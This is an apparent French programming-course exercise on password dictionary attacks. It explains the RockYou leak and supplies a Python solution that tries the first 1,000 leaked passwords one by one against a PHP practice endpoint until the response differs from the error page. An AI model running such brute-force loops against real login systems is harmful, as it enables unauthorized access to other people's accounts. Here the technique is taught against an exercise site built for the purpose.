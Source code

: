 
#### Pré-requis 2 : l'extraction d'un fichier texte sous forme de liste

Le code ci-dessous permet de collecter dans une liste ```mots``` l'ensemble des mots compris dans le fichier ```monfichiertexte.txt``` (si celui-ci comprend un mot par ligne) 

```python
mots = open("monfichiertexte.txt").read().splitlines()
```

#### Exercice :
Votre objectif est de trouver le mot de passe demandé sur la page [http://glassus1.free.fr/exoBF.html](http://glassus1.free.fr/exoBF.html){:target="_blank"}

Vous allez vous appuyer sur un leak (*fuite*) très célèbre de mots de passe , qui est le leak du site Rockyou. Dans la base de données de ce site, 32 millions de mots de passe étaient stockés en clair ```¯\_(ツ)_/¯```.

Lorsque le site a été piraté (par une injection SQL, voir le cours de Terminale), ces 32 millions de mots de passe se sont retrouvés dans la nature. Ils sont aujourd'hui téléchargeables librement, et constituent un dictionnaire de 14 341 564 mots de passe différents (car parmi les 32 millions d'utilisateurs, beaucoup utilisaient des mots de passe identiques).
Ce fichier est téléchargeable [ici](https://www.kaggle.com/wjburns/common-password-list-rockyoutxt){:target="_blank"}, mais attention il pèse 134 Mo.

Nous allons utiliser un fichier beaucoup plus léger ne contenant que les 1000 premiers mots de passe :
Le jeu de données : [Rockyou](./data/extraitrockyou.txt){. target="_blank" .md-button }


L'un de ces mots de passe est le mot de passe demandé à la page  [http://glassus1.free.fr/exoBF.html](http://glassus1.free.fr/exoBF.html){:target="_blank"} .

Lequel ?

??? note "Correction"
    ```python linenums='1'
    import requests

    page_error = requests.get("http://glassus1.free.fr/repBF.php?pass=")

    liste_mdp = open("extraitrockyou.txt").read().splitlines()

    url = "http://glassus1.free.fr/repBF.php?pass="

    for mdp in liste_mdp:
        new_url = url + mdp
        print(new_url)
        page_tentative = requests.get(new_url)
        if page_tentative.text != page_error.text:
            print("Le mot de passe est le suivant :", mdp)
            break
    ```





